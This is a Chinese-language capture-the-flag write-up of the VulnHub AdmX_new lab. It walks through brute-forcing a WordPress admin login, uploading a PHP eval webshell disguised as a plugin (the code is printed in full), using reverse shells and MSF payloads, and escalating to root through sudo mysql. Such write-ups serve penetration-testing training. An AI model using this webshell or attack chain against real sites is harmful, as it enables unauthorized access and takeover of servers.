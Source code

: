 ```yaml
---
title: VulnHub靶场 AdmX_new
description: VulnHub靶场 AdmX_new WP
pubDate: 11 06 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-12.webp
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


## 说明

靶场里存在两个 flag

## 主机发现

进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-1.webp)

得到目标机器 IP 为 `192.168.217.144`，进行端口服务发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-5.webp)

发现 80 端口，运行 HTTP 服务，访问目标页面。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-2.webp)

是一个 Ubuntu 下 Apache 的默认页面

## Web 后台登录

对该网站进行目录扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-3.webp)

发现如下目录，访问 `http://192.168.217.144//tools/adminer.php`，得到数据库连接界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-4.webp)

访问 `http://192.168.217.144/wordpress/` ，经过漫长的访问，才出现一个基本的 Web 框架

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-6.webp)

不对劲，查看网络情况

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-7.webp)

IP 是硬编码写死的，通过 burp 拦截，把这个 IP 改成真实的 IP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-8.webp)

然后再进行测试，发现可以正常访问。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-9.webp)

访问 `http://192.168.217.144/wordpress/wp-login.php` 来到 wordpress 的登录界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-10.webp)

尝试弱口令登录，发现存在 admin 用户

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-11.webp)

利用 burp 对 admin 用户进行密码爆破，得到密码为 `adam14`，成功登录后台

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-12.webp)

## Wordpress 插件 getshell

在主题模板上放个木马，这里选择在 404 页面放了个一句话木马

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-13.webp)

更新页面，结果报错失败了

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-14.webp)

Wordpress 支持上传 ZIP 格式的插件包。我们可以写一个符合 Wordpress 格式的 webshell 然后让网站以插件加载它。

```php
<?php
/*
Plugin Name: Webshell Plugin
Description: Wordpress WebShell
Version: 1.0
Author: trtyr
*/

@eval($_POST['cmd']);
?>
```

然后将其打包成 zip，上传

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-15.webp)

直接蚁剑连接

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-16.webp)``

## 内网渗透

我们现在拿到了蚁剑的 shell，上传一个 MSF 木马，再上线一下 MSF

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-17.webp)

主机里存在两个 flag。我们先去看看 `/home` 目录下几个用户

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-18.webp)

存在一个 `wpadmin` 用户，在文件夹内发现 `local.txt`，结果没有权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-19.webp)

我们回去看一下网站的数据库配置文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-20.webp)

得到一个用户名密码 `Wp_Admin#123`，试试能不能登录数据库

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-21.webp)

数据库登录失败，尝试拿这个密码登录用户。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-22.webp)

登录失败，我们还知道网站密码是 `adam14`，挨个尝试，结果用户登录上去了。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-23.webp)

在当前用户下，通过 curl 下载一个新的 MSF 木马

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-24.webp)

没有写入权限，我们再上线一个 nc。结果这里是个大坑，试了好几遍都不行，后来发现主机有 python3，拿 python 去反弹了 shell。

拿到 shell 后直接去看那个 `local.txt`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-25.webp)

得到第一个 flag。然后看一下这个用户能不能执行 `sudo -l`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-26.webp)

可以发现可以执行 `/usr/bin/mysql -u root -D wordpress -p` 命令，尝试使用 `sudo` 运行该命令。经过测试，密码又是 `adam14`，拿到数据库 shell

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-27.webp)

使用 `system` 命令直接上 bash

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-28.webp)

拿到 root 权限，去 root 目录下，拿到第二个 flag

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-29.webp)
